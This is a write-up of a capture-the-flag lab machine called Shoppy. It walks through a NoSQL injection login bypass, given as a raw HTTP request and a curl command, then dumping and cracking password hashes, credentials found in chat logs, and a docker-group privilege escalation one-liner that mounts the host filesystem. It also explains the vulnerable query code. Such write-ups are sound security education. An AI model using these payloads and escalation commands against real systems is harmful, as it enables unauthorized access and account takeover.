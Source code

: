 # Shoppy

Spent forever trying to poke at the login form, but I could not find anything. 

In the end, what worked was this:

```
POST /login?error=WrongCredentials HTTP/1.1
Host: shoppy.htb
Content-Length: 47
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

username=admin'%7c%7c'1'%3d%3d'1&password=admin
```

Or as curl:

```
curl -i -s -k -X $'POST' \
    -H $'Host: shoppy.htb' -H $'Content-Length: 47' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
    --data-binary $'username=admin\'%7c%7c\'1\'%3d%3d\'1&password=admin' \
    $'http://shoppy.htb/login?error=WrongCredentials'
```

The payload is `admin'||'1'=='1` urlencoded. I will have to look at the code or query used after foothold to properly understand this! If I change any single quotes, it breaks!

# Exploit re-use

In the admin panel, there is a user search functionality. If I apply the same nosqli vulnerability to the search field I can get these data:

```
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

I assume that the underlying database and code logic is the same, so it was the natural thing to try first.

Looks like some pretty tame hashes. Let's see if some online cracker will deal with it for us.

John the Ripper will crack one of them for us:

josh:remembermethisway

Sadly this password does not work for josh@shoppy.htb nor does it work for `jaeger`. The jaeger user appears in the exception stack trace if you try to bypass authentication with json and passing malformed json in the request.

# More wfuzz

```
$ wfuzz -w SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt --hw 11 --hc 404 -H "Host: FUZZ.shoppy.htb" http://shoppy.htb
```

With some help from my friends, I ran this wordlist and found the mattermost subdomain. I usually run the top domain files, but they did not contain this string so I felt super stuck!

Josh can log in to mattermost with the password from earlier! Going through the chats reveals some credentials for the user jaeger:

username: jaeger
password: Sh0ppyBest@pp!

These work for ssh as well!

One of the first things I always check is the output of `sudo -l`:

```
User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

It took me a while to figure out the syntax for how to call this program as the deploy user, but I found out in the end:

```
$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password:
```

None of the passwords I have so far works for this. I thought taking this program to a reverse engineeering tool would be overkill for an easy box, so instead I tried to use strings:

```
strings /home/deploy/password-manager
```

But none of the strings looked like a password. After being stuck on this for a while, I got a hint to try some different encodings with `strings -e`. And it turns out the password string is visible if using the 16-bit littleendian encoding: 

```
$ strings -e l /home/deploy/password-manager
Sample
```

That doesn't sound much like a password either. But it is!

```
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!

Now I can ssh or su as deploy user!

# Docker

Not a lot going on with this user - I tried all the basic stuff: sudo -l, suid, env, etc. Turns out this user is a member of the docker group. Let's see if they can run docker commands:

```
$ docker ps -a
CONTAINER ID   IMAGE     COMMAND   CREATED   STATUS    PORTS     NAMES
```

It can! Linpeas also tagged this group as a potential attack vector. A few google searches and I'm reading an article about priv esc using Docker and they mention GTFOBins has an entry for this binary:

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Turns out it's possible to run this command and mount the entire host filesystem and browse it that way. What a security risk!

I could confirm that alpine was already available on the host:

```
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED         SIZE
alpine       latest    d7d3d98c851f   10 months ago   5.53MB
```

And that's it, really! 

# Conclusion

Super interesting box! It was a little frustrating with the wordfile, but let this serve as a reminder for me to run more than one wordlist if I get stuck!

I didn't know about the different encoding options for `strings` - I will definitely keep that in mind going forward.

In the end, it would probably have been easier to just try and reverse engineer it and look for the string that way.

I also did not know about docker priv-esc. I guess it makes sense since docker requires root, right? But very interesting privesc that I will keep in mind!

# PS

Going back to understanding the nosql injection. This is the part in the code that handles the login query:

```
    const query = { $where: `this.username === '${username}' && this.password === '${passToTest}'` };
```

Or condensed:

```
this.username === '${username}' && this.password === '${passToTest}'
```

So let's substitute with the injection username:

```
this.username === 'admin'||'1'=='1' && this.password === '${passToTest}'
```

Looking at it now, I don't know why I was so confused. It looks pretty ordinary.

I think I got thrown off since most of the injection payloads online only use 1==1 and not '1'=='1'. In this case since I inject in the middle of two since quotes, I need to omit the initial and the final quote.
